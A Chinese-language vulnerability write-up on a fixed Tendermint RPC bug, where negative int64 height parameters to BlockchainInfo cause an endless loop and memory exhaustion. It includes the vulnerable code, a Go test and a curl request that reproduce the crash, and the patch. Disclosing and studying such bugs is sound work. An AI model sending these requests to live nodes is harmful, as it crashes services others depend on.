

# [DC-01] RPC请求因For-loop导致OOM

## 漏洞标签

`RPC` `For-loop` `OOM`

## 漏洞描述

这是一个来自 hackerone 提交的关于 RPC 的漏洞。恶意的 `BlockchainInfo` 请求可能会导致无限循环，最终导致内存耗尽导致崩溃。

## 漏洞分析

文件：`rpc/core/blocks.go`

漏洞代码: [链接](https://github.com/tendermint/tendermint/blob/v0.22.5/rpc/core/blocks.go)

```go
func BlockchainInfo(ctx *rpctypes.Context, minHeight, maxHeight int64) (*ctypes.ResultBlockchainInfo, error) {
	if minHeight == 0 {
		minHeight = 1
	}

	if maxHeight == 0 {
		maxHeight = blockStore.Height()
	} else {
		maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)
	}

	// maximum 20 block metas
	const limit int64 = 20
	minHeight = cmn.MaxInt64(minHeight, maxHeight-limit)

	logger.Debug("BlockchainInfoHandler", "maxHeight", maxHeight, "minHeight", minHeight)

	if minHeight > maxHeight {
		return nil, fmt.Errorf("min height %d can't be greater than max height %d", minHeight, maxHeight)
	}

	blockMetas := []*types.BlockMeta{}
	for height := maxHeight; height >= minHeight; height-- { // for-loop
		blockMeta := blockStore.LoadBlockMeta(height)
		blockMetas = append(blockMetas, blockMeta)
	}

	return &ctypes.ResultBlockchainInfo{blockStore.Height(), blockMetas}, nil
}
```

攻击者可以发送如下参数值：

```go
minHeight = -9223372036854775808 (min int64)
maxHeight = -9223372036854775788 (minHeight + 20)
```

注意到`maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)`，其中 `MinInt64` 为从两个参数选择较小的，所以我们使用负值的 `maxHeight`。

注意循环语句 `for height := maxHeight; height >= minHeight; height-- {}`，代码中的 for-loop 会可以无限次循环执行。当达到循环次数 9223372036854775807 (max int64) ，还能继续进行。每次无法查找块时，它会向 `blockMetas` 向量追加一个nil。 最终，这将增长到足以耗尽服务器上的内存。

## 复现或测试步骤

此处可以有两种复现方式。

### 使用 go test 脚本测试

```golang
// XuanMao : Bug test
func TestBlockchainInfoForloop(t *testing.T) {
	config := cfg.ResetTestRoot("node_node_test")
	defer os.RemoveAll(config.RootDir)

	// create & start node
	n, err := DefaultNewNode(config, log.TestingLogger())
	require.NoError(t, err)
	err = n.Start()
    require.NoError(t, err)
    
	c := struct {
		min, max     int64
	}{
	-9223372036854775808, -9223372036854775788,
	}
	BlockchainInfo(c.min,c.max)
}
```



可以看到内存持续上升，几分钟后程序 crash.

### 启动节点复现

开启一个节点，并向节点接口(`e.g. 127.0.0.1:26657`)，发送以下请求：

```bash
curl 'http:///blockchain?minHeight=-9223372036854775808&maxHeight=-9223372036854775788'
```

## 修复

本漏洞相关修复见 : [Fix](https://github.com/tendermint/tendermint/commit/8dc655dad25b0b04f271cb66ba73fd504db3195d)

本漏洞在版本 v0.22.6 中修复。

修复方法：

增加 `filterMinMax` 对输入的参数值进行检查处理。

1. 检查参数值不小于0；
2. `min` 小于 `max`；
3. 当 `min` 为 0 时，设置为 1 ，当 `max` 为 0 ，设置为最后区块高度。

```golang
// error if either min or max are negative or min < max
// if 0, use 1 for min, latest block height for max
// enforce limit.
// error if min > max
func filterMinMax(height, min, max, limit int64) (int64, int64, error) {
	// filter negatives
	if min < 0 || max < 0 {
		return min, max, fmt.Errorf("heights must be non-negative")
	}

	// adjust for default values
	if min == 0 {
		min = 1
	}
	if max == 0 {
		max = height
	}

	// limit max to the height
	max = cmn.MinInt64(height, max)

	// limit min to within `limit` of max
	// so the total number of blocks returned will be `limit`
	min = cmn.MaxInt64(min, max-limit+1)

	if min > max {
		return min, max, fmt.Errorf("min height %d can't be greater than max height %d", min, max)
	}
	return min, max, nil
}
```

## 相关资料

本漏洞相关 `Issue` 见 : [Issue](https://github.com/tendermint/tendermint/issues/2049)

